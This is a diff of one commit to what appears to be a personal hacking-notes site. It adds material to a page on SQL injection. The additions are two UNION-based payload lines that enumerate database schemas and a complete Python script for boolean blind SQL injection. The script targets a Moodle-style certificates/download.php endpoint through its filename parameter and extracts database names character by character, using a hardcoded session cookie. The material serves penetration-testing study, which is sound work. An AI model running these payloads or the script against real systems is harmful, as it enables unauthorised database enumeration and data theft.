

Before and after one commit to mvc1009/hackingnotes, a Jekyll site: the page built from _docs/web/sqli.md, in a window 1280 px wide and 1400 px high, scrolled down 13796 px. Shown: the whole window, without its empty margins (358-1221 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/_docs/web/sqli.md
+++ b/_docs/web/sqli.md
@@ -362,6 +362,8 @@ Now knowing that the third column is for descriptions, we can put there all info
 ```
 /index.php?id=1 union all select 1, 2, @@version
 /index.php?id=1 union all select 1, 2, user()
+/index.php?id=1 union all select 1, 2, schema_name from information_schema.schemata
+/index.php?id=1 union all select 1, 2, schema_name from information_schema.schemata where schema_name!='information_schema' and schema_name!='performance_schema' and schema_name!='sys' and schema_name!='mysql'
 /index.php?id=1 union all select 1, 2, table_name from information_schema.tables
 /index.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
 /index.php?id=1 union all select 1, username, passwords from users
@@ -549,6 +551,57 @@ print("[+] Final results:")
 print(results)
 ```
 
+Another example of retrieving databases names:
+
+```python
+import requests
+
+session = requests.Session()
+letters = 'rotasdfghjklzxcvbnmqweyuip_@ZXCVBNMASDFGHJKLQWERTYUIOP=+\'", 0123456789.-$%&*!'
+
+
+# GET LENGTH OF PAYLOAD:
+# Payload: (SELECT table_name from information_schema.tables LIMIT 1 OFFSET 1)
+def get_length(payload):
+	for i in range(1,100):
+		#print("	[!] Length: %s" % i)
+		paramsGet = {"contextid":"189112","filename":"17042023164857_test.pdf' AND LENGTH(%s)=%s-- -" % (payload,i)}
+		headers = {"Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8","Upgrade-Insecure-Requests":"1","User-Agent":"Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0","Connection":"close","Sec-Fetch-Dest":"document","Sec-Fetch-Site":"none","Sec-Fetch-User":"?1","Accept-Language":"en-US,en;q=0.5","Accept-Encoding":"gzip, deflate, br","Sec-Fetch-Mode":"navigate"}
+		cookies = {"MoodleSession":"otdcni86r8k5u520fcfh5ump30"}
+		response = session.get("https://example.com/certificates/download.php", params=paramsGet, headers=headers, cookies=cookies)
+		if response.status_code == 200:
+			#print("\t[+]--- Length FOUND : %s" % str(i))
+			return i
+# GET TABLENAME
+# Payload: (SELECT table_name from information_schema.tables LIMIT 1 OFFSET 1)
+# Length: 14
+def get_value(payload, length):
+	out = ''
+	for i in range(1,length+1):
+		for l in letters:
+			paramsGet = {"contextid":"189112","filename":"17042023164857_test.pdf' AND SUBSTRING(%s,%s,1)='%s'-- -" % (payload,i,l)}
+			headers = {"Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8","Upgrade-Insecure-Requests":"1","User-Agent":"Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0","Connection":"close","Sec-Fetch-Dest":"document","Sec-Fetch-Site":"none","Sec-Fetch-User":"?1","Accept-Language":"en-US,en;q=0.5","Accept-Encoding":"gzip, deflate, br","Sec-Fetch-Mode":"navigate"}
+			cookies = {"MoodleSession":"otdcni86r8k5u520fcfh5ump30"}
+			response = session.get("https://example.com/certificates/download.php", params=paramsGet, headers=headers, cookies=cookies)
+			if response.status_code == 200:
+				print("\t[+] Letter FOUND : %s" % str(l))
+				out+=l
+				break
+	return out
+
+
+# GET FIRST 10 DATABASES
+for i in range(0,10):
+	print("[!] DATABASE %s" % i)
+	payload = "(SELECT schema_name from information_schema.schemata WHERE schema_name!='information_schema' AND schema_name!='performance_schema' AND schema_name!='sys' AND schema_name!='mysql' LIMIT 1 OFFSET %s)" % str(i)
+
+	length = get_length(payload)
+	print("\t[+] DATABASE %s LENGTH: %s" %(i, length))
+
+	value = get_value(payload, length)
+	print("\t[+] DATABASE %s VALUE: %s" %(i, value))
+```
+
 ## Conditional Responses by triggering SQL errors
 
 If injecting different boolean conditions makes no difference to the application's response we can force an error using the `1/0`.
````
